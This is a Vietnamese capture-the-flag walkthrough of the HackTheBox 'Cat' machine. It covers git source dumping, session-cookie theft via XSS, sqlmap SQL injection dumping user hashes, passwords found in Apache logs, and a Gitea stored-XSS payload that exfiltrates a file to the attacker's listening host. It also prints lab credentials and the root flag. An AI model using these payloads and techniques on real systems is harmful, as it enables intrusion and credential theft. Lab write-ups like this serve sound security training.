

Cat là machine với mức rating medium trong season Vice này, đây là những gì chúng ta sẽ chuẩn bị làm

- Dump source code
- XSS
- SQL Injection
- Log analysis
- LFI qua XSS

# User flag

## 1. Information gathering (enumeration)

Quét tất cả các port bằng `nmap`

```bash
$ nmap -sSVC 10.10.11.53
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-10 13:05 GMT
Nmap scan report for 10.10.11.53
Host is up (0.068s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://cat.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.15 seconds

```

Cũng như nhiều box khác, mình sẽ thấy 2 port TCP được mở: 22 và 80. Mình sẽ set host trong `/etc/hosts` 

```bash
echo "10.10.11.53 cat.htb" | sudo tee -a /etc/hosts
```

Vào URL `cat.htb`  để xem qua content:



## 2. **Vulnerability assessment**

Do mình đã tìm thấy trang web được host trên port 80, mình sẽ chạy `gobuster` để tìm các directory trên server

```bash
$ gobuster dir -u http://cat.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cat.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git/index           (Status: 200) [Size: 1726]
/.git/logs/           (Status: 403) [Size: 272]
/.hta                 (Status: 403) [Size: 272]
/.htaccess            (Status: 403) [Size: 272]
/.htpasswd            (Status: 403) [Size: 272]
/.git/HEAD            (Status: 200) [Size: 23]
/.git                 (Status: 301) [Size: 301] [--> http://cat.htb/.git/]
/.git/config          (Status: 200) [Size: 92]
/admin.php            (Status: 302) [Size: 1] [--> /join.php]
/css                  (Status: 301) [Size: 300] [--> http://cat.htb/css/]
/img                  (Status: 301) [Size: 300] [--> http://cat.htb/img/]
/index.php            (Status: 200) [Size: 3075]
/server-status        (Status: 403) [Size: 272]
/uploads              (Status: 301) [Size: 304] [--> http://cat.htb/uploads/]
Progress: 4734 / 4735 (99.98%)
===============================================================
Finished
===============================================================
```

Như có thể thấy, mình có thể truy cập được directory `.git/HEAD` 

Tới đây mình sẽ tiếp tục sử dụng `git-dumper` để lấy source code

```bash
$ python3 -m venv ily
$ source ./ily/bin/activate
$ python3 -m pip install git-dumper
$ git-dumper http://cat.htb/.git src
[-] Testing http://cat.htb/.git/HEAD [200]
[-] Testing http://cat.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://cat.htb/.gitignore [404]
[-] http://cat.htb/.gitignore responded with status code 404[-] Testing http://cat.htb/.git/HEAD [200]
[-] Testing http://cat.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://cat.htb/.gitignore [404]
[-] http://cat.htb/.gitignore responded with status code 404
...
```

Tiến hành đọc source code trong `src/` để phân tích mã nguồn

### 2.1: Source code

Khi đọc qua các file, mình dừng lại ở dòng 86 trong file `contest.php`

```php
$stmt->bindParam(':owner_username', $_SESSION['username'], PDO::PARAM_STR);
```

Có vẻ như param `username` từ session không được validate và gửi thẳng tới database, mình sẽ xem thêm `view_cat.php` và thấy dữ liệu được trả về cho người dùng (line 17):

```php
$query = "SELECT cats.*, users.username FROM cats JOIN users ON cats.owner_username = users.username WHERE cat_id = :cat_id";
$statement = $pdo->prepare($query);
$statement->bindParam(':cat_id', $cat_id, PDO::PARAM_INT);
$statement->execute();
```

## 3. Exploit

Mình sẽ treo một http server ở máy để listen tất cả các request

```bash
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Và mình sẽ đăng ký một user với username sau làm payload

```html

```


Tiến hành đăng nhập và submit Smurf qua `/contest.php` 


Check log bên http server:

```bash
10.10.11.53 - - [10/Feb/2025 13:32:31] "GET /UEhQU0VTU0lEPW8yMmhjamExZXY4aDlhMzgzZThsdnVoMWtn HTTP/1.1" 404 -
```

Tiến hành decode:

```bash
$ echo UEhQU0VTU0lEPW8yMmhjamExZXY4aDlhMzgzZThsdnVoMWtn | base64 -d
PHPSESSID=o22hcja1ev8h9a383e8lvuh1kg 
```

Thay cookie và chúng ta có thể truy cập được admin panel:


Tiếp tục check source code của `accept_cat.php`, chúng ta sẽ thấy line có thể thực hiện SQLi

```php
$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
$pdo->exec($sql_insert);
```

Mình sẽ sử dụng `sqlmap` cùng với các params được yêu cầu (`catId`, `catName`), token và table

```bash
$ sqlmap -u "http://cat.htb/accept_cat.php" --data "catId=1&catName=smurf" --cookie="PHPSESSID=e0i7kgq0m77rnlidfmfmj2atj3" -p catName --level=5 --risk=3 --dbms=SQLite
sqlmap identified the following injection point(s) with a total of 83 HTTP(s) requests:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catId=1&catName=smurf'||(SELECT CHAR(105,85,88,84) WHERE 6712=6712 AND 6561=6561)||'

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catId=1&catName=smurf'||(SELECT CHAR(90,71,102,104) WHERE 3554=3554 AND 5979=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'
---
```

Tiếp tục dump table `users` thông qua SQLi

```bash
$ sqlmap -u "http://cat.htb/accept_cat.php" --data "catId=1&catName=smurf" --cookie="PHPSESSID=e0i7kgq0m77rnlidfmfmj2atj3" -p catName --level=5 --risk=3 --dbms=SQLite -T "users" --threads=4 --dump
Database: <current>
Table: users
[10 entries]
+---------------+-------------------------------+----------------------------------+----------+
| user_id       | email                         | password                         | username |
+---------------+-------------------------------+----------------------------------+----------+
| 1             | axel2017@gmail.com            | d1bbba3670feb9435c9841e46e60ee2f | axel     |
| 2             | rosamendoza485@gmail.com      | ac369922d560f17d6eeb8b2c7dec498c | rosa     |
| 3             | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad | robert   |
| 4             | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe | fabian   |
| 5             | jerrysonC343@gmail.com        | 781593e060f8d065cd7281c5ec5b4b86 | jerryson |
| 6             | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8 | larry    |
| 7             | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6   | royer    |
| ????????????? | peterCC456@gmail.com          | e41ccefa439fc454f7eadbf1f139ed8a | <blank>  |
| <blank>       | <blank>                       | <blank>                          | <blank>  |
| <blank>       | <blank>                       | <blank>                          | <blank>  |
+---------------+-------------------------------+----------------------------------+----------+

```

Tiến hành cầm các và mang qua `crackstation` , mình nhận được kết quả sau:


Sử dụng password để ssh vào user `rosa`

```bash
$ ssh rosa@cat.htb
```


Và chúng ta đã có initial footprint.

## 4. Post-exploitation

Trước hết mình sẽ đẩy `linpeas` qua server

```bash
$ sftp rosa@cat.htb                       
rosa@cat.htb's password: 
Connected to cat.htb.
sftp> put linpeas.sh /tmp
Uploading linpeas.sh to /tmp/linpeas.sh
linpeas.sh                                                                                                                                                                              100%  811KB   1.7MB/s   00:00    
sftp> bye
```

Quay lại ssh, chmod +x file rồi chạy

```bash
rosa@cat:~$ chmod +x /tmp/linpeas.sh 
rosa@cat:~$ /tmp/linpeas.sh
```

Có một vài entries chúng ta cần chú ý

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                             
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                                                         
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33239         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:32927         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:55567         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -  
```

```bash
╔══════════╣ Users with console
axel:x:1000:1000:axel:/home/axel:/bin/bash                                                                                                                                                                                
git:x:114:119:Git Version Control,,,:/home/git:/bin/bash
jobert:x:1002:1002:,,,:/home/jobert:/bin/bash
root:x:0:0:root:/root:/bin/bash
rosa:x:1001:1001:,,,:/home/rosa:/bin/bash

```

```bash
╔══════════╣ Analyzing Interesting logs Files (limit 70)
-rw-r----- 1 root adm 975838 Feb 12 17:45 /var/log/apache2/access.log                                                                                                                                                     

-rw-r----- 1 root adm 1125558 Feb 12 17:45 /var/log/apache2/error.log

```

Tiến hành check file `/var/log/apache2/access.log`, chúng ta lấy được password cho `axel`

```bash
rosa@cat:~$ cat /var/log/apache2/access.log | head
127.0.0.1 - - [12/Feb/2025:17:26:18 +0000] "GET /join.php HTTP/1.1" 200 1683 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [12/Feb/2025:17:26:18 +0000] "GET /css/styles.css HTTP/1.1" 200 1155 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [12/Feb/2025:17:26:18 +0000] "GET /favicon.ico HTTP/1.1" 404 485 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
127.0.0.1 - - [12/Feb/2025:17:26:19 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
```

Sử dụng password để login qua SSH và chúng ta đã thành công

```bash
$ ssh axel@cat.htb
axel@cat.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-204-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
...
You have mail.
Last login: Fri Jan 31 11:31:57 2025 from 10.10.14.69
```

# Root flag

## 1. Information gathering (enumeration)

Mình sẽ check mail của user `axel`

```bash
$ cat /var/mail/axel
From rosa@cat.htb  Sat Sep 28 04:51:50 2024
Return-Path: <rosa@cat.htb>
Received: from cat.htb (localhost [127.0.0.1])
        by cat.htb (8.15.2/8.15.2/Debian-18) with ESMTP id 48S4pnXk001592
        for <axel@cat.htb>; Sat, 28 Sep 2024 04:51:50 GMT
Received: (from rosa@localhost)
        by cat.htb (8.15.2/8.15.2/Submit) id 48S4pnlT001591
        for axel@localhost; Sat, 28 Sep 2024 04:51:49 GMT
Date: Sat, 28 Sep 2024 04:51:49 GMT
From: rosa@cat.htb
Message-Id: <202409280451.48S4pnlT001591@cat.htb>
Subject: New cat services

Hi Axel,

We are planning to launch new cat-related web services, including a cat care website and other projects. Please send an email to jobert@localhost with information about your Gitea repository. Jobert will check if it is a promising service that we can develop.

Important note: Be sure to include a clear description of the idea so that I can understand it properly. I will review the whole repository.

From rosa@cat.htb  Sat Sep 28 05:05:28 2024
Return-Path: <rosa@cat.htb>
Received: from cat.htb (localhost [127.0.0.1])
        by cat.htb (8.15.2/8.15.2/Debian-18) with ESMTP id 48S55SRY002268
        for <axel@cat.htb>; Sat, 28 Sep 2024 05:05:28 GMT
Received: (from rosa@localhost)
        by cat.htb (8.15.2/8.15.2/Submit) id 48S55Sm0002267
        for axel@localhost; Sat, 28 Sep 2024 05:05:28 GMT
Date: Sat, 28 Sep 2024 05:05:28 GMT
From: rosa@cat.htb
Message-Id: <202409280505.48S55Sm0002267@cat.htb>
Subject: Employee management

We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at: http://localhost:3000/administrator/Employee-management/. In addition, you can consult the README file, highlighting updates and other important details, at: http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md.

```

Và mình đã tìm thấy địa chỉ web `localhost:3000` 

## 2. Vulnerability assessment

Tiếp tục forward port 3000, 25 (⇒ 2525) về máy để phân tích thêm

```bash
$ ssh axel@cat.htb -L 3000:127.0.0.1:3000 -L 2525:127.0.0.1:25
```


Và mình đã truy cập được `Gitea`

Check version ở footer: `1.22.0`, mình có thể sử dụng CVE-2024-6886

Chúng ta sẽ sử dụng user `axel` với mật khẩu ở trên để login

## 3. Exploit

Tạo một repo mới với description (payload) như sau:

```jsx
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.14.17:8081/?ily=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">XSS Test</a>
```

Tiếp tục tạo một file trống trong repo


Gửi email qua smtp cùng `swaks`

```bash
$ swaks --to "jobert@localhost" --from "axel@localhost" --header "Subject: meow" --body "http://localhost:3000/axel/xss" --server localhost --port 2525 --timeout 30s
```

Và sau một lúc, chúng ta sẽ lấy được nội dung của file `index.php`

```bash
10.10.11.53 - - [10/Feb/2025 14:19:48] "GET /?ily=%3C%3Fphp%0A%24valid_username%20%3D%20%27admin%27%3B%0A%24valid_password%20%3D%20%27IKw75eR0MR7CMIxhH0%27%3B%0A%0Aif%20(!isset(%24_SERVER%5B%27PHP_AUTH_USER%27%5D)%20%7C%7C%20!isset(%24_SERVER%5B%27PHP_AUTH_PW%27%5D)%20%7C%7C%20%0A%20%20%20%20%24_SERVER%5B%27PHP_AUTH_USER%27%5D%20!%3D%20%24valid_username%20%7C%7C%20%24_SERVER%5B%27PHP_AUTH_PW%27%5D%20!%3D%20%24valid_password)%20%7B%0A%20%20%20%20%0A%20%20%20%20header(%27WWW-Authenticate%3A%20Basic%20realm%3D%22Employee%20Management%22%27)%3B%0A%20%20%20%20header(%27HTTP%2F1.0%20401%20Unauthorized%27)%3B%0A%20%20%20%20exit%3B%0A%7D%0A%0Aheader(%27Location%3A%20dashboard.php%27)%3B%0Aexit%3B%0A%3F%3E%0A%0A HTTP/1.1" 200 -
```

## 4. Post-exploitation

Đưa vào cyberchef và chúng ta decode được như sau:


Sử dụng password và login bằng `root`

```bash
axel@cat:~$ su 
Password: 
root@cat:/home/axel# cd
root@cat:~# ls
root.txt  scripts
root@cat:~# cat root.txt
b6c7d37c02f5891f0e25cc098fae0172
```

<details>
  <summary>for tomorrow 🎀</summary>
  
  Chúc u mai (nay) phỏng vấn thật tự tin nha, cố gắng nhé, me tin u làm được :3
  - twilight @ 2am 13/02
</details>